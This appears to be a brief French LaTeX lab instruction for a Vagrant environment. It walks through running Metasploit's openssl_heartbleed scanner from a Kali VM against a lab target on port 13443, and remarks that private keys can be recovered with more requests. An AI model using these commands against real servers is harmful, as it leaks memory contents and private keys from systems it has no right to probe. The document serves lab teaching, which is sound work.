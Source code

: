 \documentclass[a4paper,oneside,1pt]{article}
\begin{document}
Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande "vagrant up". Cette commande va installer les machines. 
Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (kali).
 
Maintenant lancez les commandes : \\
sudo apt-get update \\
sudo apt-get upgrade 
# l'upgrade est très long, faites entrer a chaque interaction

sudo msfupdate\\
sudo msfconsole\\

puis dans la console:\\
use auxiliary/scanner/ssl/openssl\_heartbleed\\
set RHOTS <votreip> \\
set RPORT 13443\\
set verbose true\\
run\\

On peut voir des informations récupérées, dans la catégorie "Printable info leaked". Avec des outils plus poussés et de nombreuses requêtes, il est possible de récupérer la clef privée. 



\appendix

\section{Glossaire}

vagrant : Vagrant est un logiciel libre et open-source pour la création et la configuration des environnements de développement virtuel. 


\section{Références}

\href{http://heartbleed.com/}{http://heartbleed.com/}

\href{https://fr.wikipedia.org/wiki/Heartbleed}{https://fr.wikipedia.org/wiki/Heartbleed}

\href{https://sathisharthars.wordpress.com/2014/06/10/exploit-heartbleed-openssl-vulnerability-using-kali-linux/}{https://sathisharthars.wordpress.com/2014/06/10/exploit-heartbleed-openssl-vulnerability-using-kali-linux/}
\end{document}
